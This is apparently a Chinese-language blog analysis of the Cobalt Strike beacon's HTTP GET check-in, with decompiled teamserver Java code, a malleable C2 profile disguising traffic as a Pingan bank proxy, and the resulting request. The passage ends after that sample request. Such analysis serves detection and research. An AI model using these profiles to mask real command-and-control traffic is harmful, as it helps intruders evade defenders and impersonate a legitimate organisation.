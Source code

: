 
 **1.1 Beacon的源数据包**

  
beacon上线时，会收集一些当前机器的信息和生成一个随机的bid并用teamserver中生成的公钥进行加密，然后还需要根据我们指定的profile中模拟的http请求进行进行一次封装，最后再通过http
get请求发送到teamserver。  
 **1.1.1 封包、解包http get请求**  
 **解包**  
cobaltstrike从http
get请求中提取加密之后的源数据，代码如下：（decompiled_src/beacon/BeaconHTTP.java）：

  *   *   *   *   *   *   *   *   *   *   *   *   *   *   *   *   *   *   *   *   *   *   *   *   *   *   *   *   *   *   *   *   *   * 

    
    
    public byte[] serve(String var1, String var2, Properties var3, Properties var4) {    //获取get请求的远程地址，即http回连的外网地址    String var5 = ServerUtils.getRemoteAddress(BeaconHTTP.this.c2profile, var3);    //根据profile在get请求中获取rsa加密后的metadata的hexString    String var6 = BeaconHTTP.this.c2profile.recover(".http-get.client.metadata", var3, var4, BeaconHTTP.this.getPostedData(var4), var1);    //判断源数据是否有效，加密后的源数据是定长的，始终是128字节    if (var6.length() != 0 && var6.length() == 128) {        //监听器        //var5=回连的外网地址        //加密后的元数据字节数组        //null        //0        BeaconEntry var7 = BeaconHTTP.this.controller.process_beacon_metadata(BeaconHTTP.this.listener, var5, CommonUtils.toBytes(var6), (String)null, 0);        if (var7 == null) {            MudgeSanity.debugRequest(".http-get.client.metadata", var3, var4, "", var1, var5);            return new byte[0];        } else {            //获取beacon队列任务            byte[] var8 = BeaconHTTP.this.controller.dump(var7.getId(), 921600, 1048576);            //任务队列有任务            if (var8.length > 0) {                //返回解密的任务数据                byte[] var9 = BeaconHTTP.this.controller.getSymmetricCrypto().encrypt(var7.getId(), var8);                return var9;            } else {                return new byte[0];            }        }    } else {        CommonUtils.print_error("Invalid session id");        MudgeSanity.debugRequest(".http-get.client.metadata", var3, var4, "", var1, var5);        return new byte[0];    }}

  
这里实际解析profile是在decompiled_src/c2profile/Profile.java的recover函数和decompiled_src/c2profile/Program.java的recover函数，代码台长，就不贴了。原理如下：  
比如我们编写一个profile，其中有关于http get请求的模拟设置如下：  

  *   *   *   *   *   *   *   *   *   *   *   *   *   *   *   *   *   *   *   *   *   *   *   * 

    
    
    http-get {    set uri "/api/getid";    client {        header "Accept" "*/*";        metadata {            base64;            prepend "SESSIONID=";            header "Cookie";        }    }  
        server {        header "Server" "Pingan Frontend Proxy";        header "x-pingan-id" "wwvdT1M01kspYwKlmJIe0delKPUqYiRw6VYJKw9kekjO01FMl2QIStx=";        header "X-Frame-Options" "SAMEORIGIN";        header "Content-Type" "image/png";        output {           # mask;            base64;            prepend ".PNG";            print;        }    }}

  
使用c2lint解析之后的实际http get请求如下：

  *   *   *   * 

    
    
    GET /api/getid HTTP/1.1Accept: */*Cookie: SESSIONID=WI71wcgrH+kAG/NBYK5qCQ==User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/64.0.3282.140 Safari/537.36 Edge/18.177
